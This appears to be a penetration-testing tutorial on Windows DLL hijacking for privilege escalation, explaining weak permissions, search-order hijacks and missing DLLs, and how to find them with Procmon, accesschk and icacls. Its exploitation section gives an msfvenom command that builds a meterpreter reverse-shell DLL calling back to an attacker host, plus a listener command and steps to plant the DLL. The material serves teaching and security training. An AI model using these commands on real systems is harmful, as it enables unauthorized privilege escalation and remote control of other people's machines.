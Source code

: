 ### What is DLL?
**Dynamic Link Libraries (DLLs)** are libraries that contain data and procedures used by Windows applications and services, allowing the ***code to be used across multiple applications*** at any given time. This helps ***save disk space*** and allows applications to ***load faster*** due to code reuse.

To be used for privilege escalation, the ***executable must be run by an administrator-level account***. Luckily, most services are launched by the SYSTEM account. 

It's not just services that are vulnerable - any process launched by a privileged user could be vulnerable to DLL hijacking.

### DLL Hijacking
It tricks an executable into loading a malicious DLL instead of the intended one.

A process will likely be vulnerable to DLL hijacking if it meets at least one of the following criteria:
- It loads a DLL that you have ***write access*** (**weak DLL permissions**)
- You have ***write-access*** to a folder that's ahead of the folder that contains the intended DLL in the search order (**DLL search order hijack**)
- It attempts to load a DLL that doesn't exist (**missing DLLs**)

#### Weak DLL Permissions
Occurs when a user is given ***write or modify permissions*** over a DLL loaded by a process. These permissions allow you to completely replace the file. If a SYSTEM-launched service loads the malicious DLL, it results in privilege escalation.

#### DLL Search Order Hijack
Occurs when a ***writable folder appears before the intended DLL's location*** in the search order. When a ***process attempts to load a DLL without giving an exact path***, Windows will first attempt to look for the DLL in the folder where the executable exists.

Default DLL search order:
- **The directory from which the application was loaded**
- **C:\Windows\System32**
- **C:\Windows\System**
- **C:\Windows**
- **The current directory**
- **Directories in the system PATH variable**
- **Directories in the user PATH variable**

**Example**
If an application tries to load `customlibrary.dll` with just its name without specifying a full path, Windows follows ***DLL search order*** to locate the file. 

if an application tries to load `customlibrary.dll` from `C:\Windows\customlibrary.dll`, but you place your malicious DLL in `C:\Users\restricted1\CustomService\bin\customlibrary.dll`, Windows will load your DLL first because `C:\Users\restricted1\CustomService\bin` comes earlier in the search order.

#### Missing DLLs
It occurs when a ***process tries to load a DLL that doesn't exist*** on the system. Since Windows searches multiple locations for the DLL, an attacker can exploit this by placing a malicious DLL in a directory that appears earlier in the search order.

**Finding missing DLLs from Procmon**
Procmon (`Process Monitor`) is a Sysinternals tool that ***tracks real-time process activity***, including file system and registry actions. To identify missing DLLs:
- **Open Procmon** to view running processes and their operations.
- **Filter results** by setting `Result is NAME NOT FOUND` to locate failed DLL access attempts.
- **Refine further** by filtering `Path ends with .dll` to show only missing DLLs.
- **Identify privileged processes** (e.g., Administrator or SYSTEM) attempting to load missing DLLs.
- **Check write access** to determine if you can place a malicious DLL in a location Windows will find.

Name of the vulnerable process can be found under `Process -> Path`.
Filename of the missing DLL can be found under `Event -> Path`.

**Writable Folders**
To exploit a missing DLL vulnerability, you must identify a writable folder in the DLL search order where you can place your malicious DLL.

Step 1. Find a Writable Folder:
- In Procmon -> Process > Path

Step 2. Check folder permissions:
	**AccessChk**
		`accesschk.exe -dqv "C:\Program Files\Backup Files\Daily Backup"`
	**icacls**
		`icacls "C:\Program Files\Backup Files\Daily Backup"`

### Exploitation
**Generate Payload**
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$kaliIPAddress LPORT=4444 -f dll -o daily.dll
```

`Transfer the payload to the Windows Target`

**Launch a Listener**
```
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost $kaliIPAddress; set lport 4444; exploit"
```

### Replacement
To exploit a DLL hijacking vulnerability, follow these steps based on the type of vulnerability you're targeting:
- **Weak Permissions:** Overwrite the target DLL with your payload.
- **DLL Search Order Hijack:** Place your malicious DLL in a folder higher in the DLL search order than the intended DLL.
- **Missing DLL Exploit:** Add your DLL to a folder in the DLL search order (e.g., same folder as the executable).